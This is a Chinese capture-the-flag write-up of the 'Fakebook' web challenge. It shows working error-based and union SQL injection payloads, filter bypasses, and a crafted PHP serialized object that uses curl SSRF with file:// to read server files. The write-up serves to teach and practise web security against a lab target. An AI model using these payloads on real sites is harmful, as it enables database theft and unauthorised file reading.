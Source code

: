 # \[网鼎杯 2018]Fakebook

## \[网鼎杯 2018]Fakebook

## 考点

* 报错注入
* PHP反序列化
* 注入+反序列化
* SSRF

## wp

在join.php输入内容，然后访问，发现URL为 `http://c8792f56-7863-4f64-918a-e39388492049.node3.buuoj.cn/view.php?no=1`

加个单引号就会报错&#x20;

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

这里只有一个单引号，说明很大概率是数字型注入，输入`?no=1 and 1`返回正常页面，说明是数字型注入

这里就可以考虑报错注入，发现它过滤了0x，报错注入语句如下\
`?no=1 and extractvalue(1,concat('~',(select @@version),'~'))`

返回\
`XPATH syntax error: '~10.2.26-MariaDB-log~'`

`extractvalue(1,concat('~',(select schema_name from information_schema.schemata limit 0,1),'~'))`可以获取当前数据库，为fakebook

`extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema='fakebook' limit 0,1),'~'))`获取表，为 users

`extractvalue(1,concat('~',(select column_name from information_schema.columns where table_name='users' limit 0,1),'~'))`获取字段，为 no,username,passwd,data

`extractvalue(1,concat('~',(select group_concat(data) from users where no='1'),'~'))` 获取no为1中的data数据

`extractvalue(1,concat('~',(substr((select passwd from users where no='1'),0,32)),'~'))` 截取数据，最后再进行拼接即可

```
username : \11111111
passwd : 长度为128的加密字符串
data : 
O:8:"UserInfo":3:{s:4:"name";s:9:"\11111111";s:3:"age";i:1;s:4:"blog";s:13:"www.baidu.com";}
```

发现是序列化后的结果，进行联合注入，发现报错内容为不能进行反序列化，并且给了绝对路径/var/www/html/view.php，页面在username处显示2，根据上面的报错注入，可以发现其查询顺序是 select no,username,passwd,data 也就是会对data进行反序列化

```
?no=0/**/union/**/select/**/1,2,3,4
```

经过扫描，存在flag.php和robots.txt，在robots.txt文件中发现备份文件，user.php.bak，下载然后审计

发现如下代码，而php的curl存在ssrf，可以利用file协议读取文件

```php
    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }
```

构造的序列化代码如下

```php
class UserInfo
{
    public $name = "test";
    public $age = 12;
    public $blog = "file:///var/www/html/flag.php";

}
$x = new UserInfo();
echo serialize($x);
```

结果为\
`O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}`

接下来是将数据进行注入，回到刚刚的注入语句，不难想到，其查询顺序是 select no,username,passwd,data 而blog的序列化就是存入的data

然后构造联合查询，

```
no=0/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
